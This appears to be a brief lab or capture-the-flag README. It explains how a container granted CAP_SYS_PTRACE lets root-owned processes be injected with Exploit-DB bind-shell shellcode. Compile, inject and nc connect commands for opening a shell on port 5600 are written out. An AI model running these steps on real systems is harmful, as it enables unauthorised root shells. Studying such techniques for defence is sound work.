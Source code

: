# memory_inject CAP_SYS_PTRACE capability

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

1) The EUID of the process in 0 (aka privileged process)
2) The program file has CAP_SYS_PTRACE capability to debug the process 

TCP bind shell

victim host
1) $ gcc -o inject_mem inject_mem.c
2) $ execstack -s inject_mem
3) $ ps -eaf -> find pid number under root (apache, nginx, python, etc)
4) $ ./inject_me pid_number

attacker host
1) $ nc victim_host 5600
2) $ nc 172.17.0.1 5600

Usually, in a normal container, you will not have cap_sys_ptrace capability but in this case, the creator has enabled this explicitly. This means any process the started in the container can debug the process and perform RW operations in the memory.
